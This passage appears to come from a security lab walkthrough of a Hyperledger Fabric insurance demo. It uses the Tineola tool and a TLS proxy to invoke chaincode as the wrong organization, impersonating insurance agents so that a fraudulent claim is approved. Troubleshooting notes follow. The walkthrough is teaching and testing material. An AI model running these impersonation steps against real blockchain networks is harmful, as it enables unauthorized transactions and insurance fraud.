We can also see the other end of the connection in the orderer's logs:

```
$ docker logs orderer0
// removed

2018-08-23 01:23:26.687 UTC [fsblkstorage] waitForBlock ->
DEBU 27d Going to wait for newer blocks. maxAvailaBlockNumber=[2], waitForBlockNum=[3]

2018-08-23 01:24:47.411 UTC [grpc] Printf ->
DEBU 27e grpc: Server.Serve failed to complete security handshake from "172.18.0.1:53898": EOF

2018-08-23 01:24:48.414 UTC [grpc] Printf ->
DEBU 27f grpc: Server.Serve failed to complete security handshake from "172.18.0.1:53902": EOF

2018-08-23 01:24:50.301 UTC [grpc] Printf ->
DEBU 280 grpc: Server.Serve failed to complete security handshake from "172.18.0.1:53906": EOF

2018-08-23 01:24:52.771 UTC [grpc] Printf ->
DEBU 281 grpc: Server.Serve failed to complete security handshake from "172.18.0.1:53910": EOF
```

Tom uses the `proxy` feature of Tineola to get around this "silly" restriction. Dammit, security people :)

### Using Proxy.js to Bypass grpcs Restrictions
`proxy.js` emulates SSLStrip (not exactly). It connects to a TLS endpoint and then opens up a local TCP listener. Everything sent to the local port is wrapped in TLS and sent to the endpoint (remember `grpcs` is just `grpc` wrapped in TLS).

Tom opens up a new terminal and executes the following command:

```
$ /tineola/bin/proxy.js https://127.0.0.1:7050 12345
opened server on { address: '::', family: 'IPv6', port: 12345 }
```

Now everything sent to `localhost:12345` is wrapped in TLS and sent to the orderer at `127.0.0.1:7050`.

Back in Tineola, Tom sets the local port as orderer (note this time he is using `grpc` and not `grpcs`).

```
tineola$ orderer-set grpc://localhost:12345
Connecting to orderer grpc://localhost:12345
Successfully connected to orderer
```

Using the proxy, Tom can invoke transactions and order them:

``` json
tineola$ channel-query-cc bcins claim_file --invoke
How many arguments to pass to function? 1
Value for argument 1: {"contract_uuid": "33ace588-ffd2-4757-a4d1-9fb6f13c74c3",
"date": "2018-08-21T02:14:11.259Z","description": "This is Carol4. My item broke.",
"is_theft": false,"uuid": "c0a811e8-a4ea-11e8-98d0-529269fb1459"}
CC Response: 
```

Transaction is written to the ledger (note the creator is `RepairShopOrgMSP` instead of `InsuranceOrgMSP`:


### Impersonating Insurance Agents
Tom logs into the repairshop website but cannot see any claims. Insurance agents must verify all claims. But Tom can impersonate them and call `claim_process` directly. Tom copies one `claim_process` transaction from the ledger and replaces `contract_uuid` and `uuid`.


```
claim_process({
	"contract_uuid": "33ace588-ffd2-4757-a4d1-9fb6f13c74c3",
	"uuid": "c0a811e8-a4ea-11e8-98d0-529269fb1459",
	"status": "R",
	"reimbursable": 0
})
```

Chaincode is invoked and ordered without errors:

``` json
tineola$ channel-query-cc bcins claim_process --invoke
How many arguments to pass to function? 1
Value for argument 1: {"contract_uuid": "33ace588-ffd2-4757-a4d1-9fb6f13c74c3",
    "uuid": "c0a811e8-a4ea-11e8-98d0-529269fb1459","status": "R","reimbursable": 0}
CC Response:

```

And the result is written to the ledger.


Which means Tom can mark it as complete and pocket the monies.



Fraud on the blockchain, yo!


-----

# Troubleshooting
Docker logs are your best friend. Use `docker logs [container name]`.


## Insurance App Doesn't Start
If you do not change the network name in the `peer-base.yaml` file, the web interface does not start:

```
$ docker logs web

> blockchain-for-insurance@2.1.0 serve /app
> cross-env NODE_ENV=production&&node ./bin/server

/app/app/static/js
Server running on port: 3000
Default channel not found, attempting creation...
Successfully created a new default channel.
Joining peers to the default channel.
Chaincode is not installed, attempting installation...
Base container image present.
info: [packager/Golang.js]: packaging GOLANG from bcins
info: [packager/Golang.js]: packaging GOLANG from bcins
info: [packager/Golang.js]: packaging GOLANG from bcins
info: [packager/Golang.js]: packaging GOLANG from bcins
Successfully installed chaincode on the default channel.
error: [client-utils.js]: sendPeersProposal - Promise is rejected: Error: 2
    UNKNOWN: error starting container: API error (404):
    {"message":"network build-blockchain-insurance-app_default not found"}

    at new createStatusError (/app/node_modules/grpc/src/client.js:64:15)
    at /app/node_modules/grpc/src/client.js:583:15
Fatal error instantiating chaincode on some(all) peers!
Error: Proposal rejected by some (all) of the peers: Error: 2
    UNKNOWN: error starting container: API error (404):
    {"message":"network build-blockchain-insurance-app_default not found"}
```

Take note of the error message:

* `{"message":"network build-blockchain-insurance-app_default not found"}`

List all docker networks:

```
~/Desktop$ docker network ls
NETWORK ID          NAME                                  DRIVER              SCOPE
15859302bbc8        bridge                                bridge              local
49fd05dbf1d5        buildblockchaininsuranceapp_default   bridge              local
d6dec16ffcc6        host                                  host                local
98534f449ba3        none                                  null                local

```

Modify `peer-base.yaml` as mentioned in the "Install Build Blockchain Insurance App" section to the network from the command. In this case it's `buildblockchaininsuranceapp_default`.

Use `docker-compose down` to stop all containers:

```
$ docker-compose down
Stopping police-peer ... done
Stopping repairshop-peer ... done
...
Removing network buildblockchaininsuranceapp_default
```

Run `./clean.sh` to clean up and then run `./build_ubuntu` again.

## The Login Bug
If you are in the middle of a claim and you buy new insurance with the same email, you get a new password. The new password is stored on the ledger as part of `contract_create` BUT it does not work. You can only login with the old password.


We can login with `pass73` but we will see both claims.

<!-- extra stuff -->

## peer-list-cc Error
`peer-list-cc` will fail because the certificate has not been uploaded to the peer.

This is the error:

```
tineola$ peer-list-cc
error: [client-utils.js]: sendPeersProposal - Promise is rejected: Error: 2
    UNKNOWN: chaincode error (status: 500, message:
    Authorization for GETINSTALLEDCHAINCODES on channel getinstalledchaincodes
    has been denied with error Failed verifying that proposal's creator satisfies
    local MSP principal during channelless check policy with policy
    [Admins]: [This identity is not an admin])
    
    at new createStatusError (/home/testuser/Desktop/tineola/node_modules/grpc/src/client.js:64:15)
    at /home/testuser/Desktop/tineola/node_modules/grpc/src/client.js:583:15
error: [Client.js]: Failed Installed Chaincodes Query. Error: Error: 2
    UNKNOWN: chaincode error (status: 500, message:
    Authorization for GETINSTALLEDCHAINCODES on channel getinstalledchaincodes
    has been denied with error Failed verifying that proposal's creator satisfies
    local MSP principal during channelless check policy with policy
    [Admins]: [This identity is not an admin])
    
    // ...
```

Looking at https://github.com/IBM/monitoring_ui#troubleshooting the reason is:

```
sendPeersProposal - Promise is rejected: Error: 2 UNKNOWN: chaincode error
(status: 500, message: Authorization for GETINSTALLEDCHAINCODES on channel
getinstalledchaincodes has been denied with error Failed verifying that
proposal's creator satisfies local MSP principal during channelless check policy
with policy [Admins]: [This identity is not an admin]
```

Peer authentication and channel authentication are done differently. Peer authentication relies on the admin certificate to be physically present on the peer. When we generate a new admin certificate, it signed by the correct CA and is accepted by the channel. But it is not physically present on the peer and thus we cannot authenticate directly to the peer.